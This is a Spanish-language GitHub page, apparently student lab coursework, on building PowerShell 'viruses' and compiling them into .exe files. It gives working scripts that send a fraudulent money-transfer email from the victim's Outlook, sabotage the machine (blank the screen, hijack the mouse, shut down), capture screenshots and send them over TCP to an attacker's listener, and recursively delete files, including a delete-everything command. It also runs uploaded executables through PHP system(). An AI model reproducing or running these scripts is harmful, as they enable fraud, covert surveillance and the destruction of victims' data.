 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

**Phishing con la aplicación** [NEXPHISHER](https://github.com/PabloQueipo/SAD/blob/main/2020_11_11.md)

------------------------------------

### MOLESTAR 
:satisfied:
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla
5. Bucle que mueve el ratón.
6. APAGAR EL PC 20 segundos después.

<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif"/>
</p>


```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
Start-Sleep 20
Stop-Computer -ComputerName localhost
```

-------------------------------

### CAPTURAS DE PANTALLA

Dos maneras:
- Guardarlas en el propio sistema
- Mandarlas Cliente/Servidor

#### Propio Sistema
Con este Script podemos realizar capturas de pantalla y guardarlas en la ruta que indiquemos.
```powershell
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
function screenshot([Drawing.Rectangle]$bounds, $path) {
$bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height
$graphics = [Drawing.Graphics]::FromImage($bmp)
$graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
$bmp.Save($path)
$graphics.Dispose()
$bmp.Dispose()
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900)
screenshot $bounds "C:\Users\keipo\Desktop\screenshot.png"
```
-------------------------------------------
#### Cliente/Servidor

Para ello el **Cliente será** el archivo que debera ejecutar **la víctima**, y el **Servidor** deberá estar previamente escuchando.
<br/>
**Cliente/Víctima**
:innocent:
```powershell
$port=2053
$TcpClient=New-Object System.Net.Sockets.TcpClient([IPAddress]::Loopback, $port)
$GetStream = $TcpClient.GetStream()
$StreamWriter = New-Object System.IO.StreamWriter $GetStream
$path=’C:\Users\keipo\Desktop\screenshot.bmp’
$Bitmap=New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
$Graphics=[System.Drawing.Graphics]::FromImage($Bitmap)
$Graphics.CopyFromScreen((New-Object System.Drawing.Point(0,0)), (New-Object System.Drawing.Point(0,0)), $Bitmap.Size)
$Graphics.Dispose()
$Bitmap.Save($path,'Bmp')
$Bytes = [System.IO.File]::ReadAllBytes($path)
$StreamWriter.Write($Bytes,0,$Bytes.length)
$StreamWriter.Dispose()
$GetStream.Dispose()
$TcpClient.Dispose()
```

**Servidor/Delincuente**
:smiling_imp:
```powershell
$port=2053
$IPEndPoint=New-Object System.Net.IPEndPoint([IPAddress]::Any,$port)
$TcpListener=New-Object System.Net.Sockets.TcpListener $IPEndPoint
$TcpListener.Start()
$AcceptTcpClient=$TcpListener.AcceptTcpClient()
$GetStream=$AcceptTcpClient.GetStream()
$StreamReader=New-Object System.IO.StreamReader $GetStream
$ReadAllLines = $StreamReader.ReadToEnd()
$Bytes = ([system.Text.Encoding]::Default).GetBytes($ReadAllLines)
[System.IO.File]::WriteAllBytes('C:\Users\keipo\Desktop\screenshotcopy.bmp',$Bytes)
$StreamReader.Dispose()
$GetStream.Dispose()
$AcceptTcpClient.Dispose()
$TcpListener.Stop()
```

------------------------------------

### BORRADO DE TODA LA INFORMACIÓN O ALGÚN TIPO
Podemos **Borrar** toda la información o solo algun tipo.
<p align="center">
<img src="https://media.giphy.com/media/R7m04yMaGWVeE/giphy.gif" />
</p>
**Fotografías**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.jpg
Remove-Item $fotos
```
**Ejecutables**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.exe
Remove-Item $fotos
```
**Documentos**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.docx
Remove-Item $fotos
```
**TODO**
```powershell
$fotos=Get-ChildItem -Recurse 
Remove-Item $fotos
```

------------------------------------------------

### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)
